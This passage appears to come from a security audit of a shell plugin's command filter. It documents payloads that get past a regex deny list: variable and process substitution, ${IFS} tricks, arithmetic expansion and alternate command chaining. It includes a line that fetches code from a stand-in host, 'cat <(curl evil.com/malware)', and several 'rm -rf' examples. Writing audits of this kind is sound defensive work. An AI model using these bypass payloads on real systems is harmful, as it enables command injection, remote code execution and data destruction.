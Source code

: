 ```bash
# Current validation BYPASSED by these payloads:
VAR=$(whoami) echo test              # Environment variable command substitution
echo ${IFS}malicious                 # Internal Field Separator manipulation  
echo $USER$(rm -rf /tmp/test)        # User variable with command substitution
```

**Root Cause:** The current `FORBIDDEN_PATTERNS` regex list does not account for environment variable injection techniques.

**Vulnerable Code Location:**
```python
# Lines 79-87 in shell_plugin.py
FORBIDDEN_PATTERNS = [
    r'.*>\s*/dev/.*',  # Redirect to devices
    r'.*\|\s*sudo.*',  # Pipe to sudo
    # MISSING: Environment variable injection patterns
    # MISSING: ${} parameter expansion
    # MISSING: Variable assignment with command substitution
]
```

#### 1.2 Process Substitution Bypass (CRITICAL)
**CVSS Score:** 9.6  
**Attack Vector:** Process substitution using `<()` and `>()` syntax

```bash
# These completely bypass current validation:
echo <(whoami)                       # Input process substitution
cat <(curl evil.com/malware)         # Remote code execution via process substitution
```

**Impact:** Allows arbitrary code execution through process substitution, completely bypassing the shell command filtering.

#### 1.3 Arithmetic Expansion Injection (HIGH)
**CVSS Score:** 8.9  
**Attack Vector:** Mathematical expression evaluation with embedded commands

```bash
# Arithmetic expansion bypasses:
echo $((1+1)) && rm -rf /tmp/test    # Command chaining after arithmetic
echo $[$(whoami)]                    # Command substitution in arithmetic context
```

#### 1.4 Alternative Command Chaining (HIGH)
**CVSS Score:** 8.7  

```bash
# Command separation bypasses:
ls & rm -rf /tmp/test                # Background execution separator
ls|rm -rf /tmp/test                  # Pipe without space (regex miss)
ls\nrm -rf /tmp/test                 # Newline separator
```

### 2. Shell Execution Mode Vulnerabilities
